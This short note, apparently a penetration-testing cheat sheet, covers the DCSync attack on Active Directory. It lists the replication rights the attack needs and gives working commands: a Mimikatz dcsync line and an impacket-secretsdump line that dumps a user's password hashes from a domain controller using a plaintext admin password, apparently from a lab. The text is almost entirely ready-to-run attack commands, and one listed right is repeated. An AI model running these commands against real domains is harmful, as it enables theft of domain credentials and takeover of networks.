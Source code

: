 #activedirectory #windows 

Needs the rights

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes 

#### Mimikatz

```mimikatz
lsadump::dcsync /user:corp\dave
```

#### Impacket

```bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

